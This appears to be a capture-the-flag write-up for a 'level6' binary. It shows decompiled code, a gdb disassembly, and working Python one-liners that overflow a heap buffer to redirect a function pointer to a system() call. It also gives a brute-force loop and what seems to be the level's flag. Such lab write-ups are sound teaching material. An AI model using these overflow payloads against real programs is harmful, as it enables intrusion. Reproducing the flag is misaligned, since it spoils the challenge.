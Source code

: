 int32_t main(int32_t argc, char** argv, char** envp)

0804848c  int32_t eax = malloc(64)
0804849c  int32_t* eax_1 = malloc(4)
080484ae  *eax_1 = 0x8048468
080484c5  strcpy(eax, *(argv + 4))   ## strcpy()
080484d3  return *eax_1()

(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   %ebp
   0x08048455 <+1>:     mov    %esp,%ebp
   0x08048457 <+3>:     sub    $0x18,%esp
   0x0804845a <+6>:     movl   $0x80485b0,(%esp)
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave  
   0x08048467 <+19>:    ret 

0x08048454 is our desired address

/-------------------------------------------------/
Calculate the offset:
https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/

the program uses the first argument and malloc's it on a 64-size buffer.
The offset is at 72 bytes.

lets smash the stack with it :D 

python -c 'print "A"*72 + "\x54\x84\x04\x08"' > /dev/shm/exp ; ./level6 `cat /dev/shm/exp`

/-------------------------------------------------/
bonus: bruteforcing without knowing the offset:
for i in {1..100}; do python -c "print \"\\x54\\x84\\x04\\x08\"*$i" > /dev/shm/exp ;  ./level6 `cat /dev/shm/exp`; done
/-------------------------------------------------/

f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
